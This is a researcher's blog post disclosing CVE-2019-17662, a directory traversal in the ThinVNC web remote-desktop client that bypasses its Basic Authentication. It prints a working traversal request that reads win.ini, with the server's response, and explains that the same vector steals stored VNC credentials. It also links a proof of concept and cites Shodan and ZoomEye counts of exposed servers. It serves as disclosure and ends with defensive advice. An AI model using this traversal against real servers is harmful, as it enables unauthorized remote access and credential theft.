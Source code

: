 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-16 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability (CVE-2019-17662) I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability. 

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from [sourceforge](https://sourceforge.net/projects/thinvnc/) and the source code for this is available at [github](https://github.com/bewest/thinvnc). According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
![auth](/img/ThinVNC/CVE-2.png)

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector: <br>
<b>**/../../../../../../../../../windows/win.ini** </b>

<h4>Sample Request:</h4>

```
GET /xyz/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
<h4>Sample Response: </h4>

```
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
<br>
![Burp](/img/ThinVNC/CVE-4.png)
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>
My friend [@WarMarx](https://twitter.com/\_WarMarX\_) on Twitter and I have written a tiny POC for this issue which can be found here: [Github POC Link](https://github.com/shashankmangal2/Exploits/tree/master/CVE-2019-17662)

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. You can use the following queries on Shondan and Zoomeye to identiify the vulnearble servers. 

<br>
[ZoomEye](https://zoomeye.org): 130 Active Servers Identified
![zoomeye](/img/ThinVNC/CVE-1.png)


<br>
[Shodan](https://shodan.io): 45 Active Servers Identified
<br>
![shodan](/img/ThinVNC/CVE-6.png)

SourceForge Page suggests that there are 219 downloads / week on an average of this VNC software. 

<h5>Few takeaways:</h5>
-  Never store Cleartext Credentials <br>
-  Never use HTTP/Basic Authentication <br>
-  Never stop hunting after an error page <br>

<h2> Conclusion: </h2>
This post was just a description of how this vulnerability was found. You could end up in a similiar scenario during a Pentest Op or a Red Team Op. Do not use legacy software, even though there are no POC's or CVE's available on those software, they might be vulnerable to some issue. Always keep yourself and your software updated. Cheers! :)


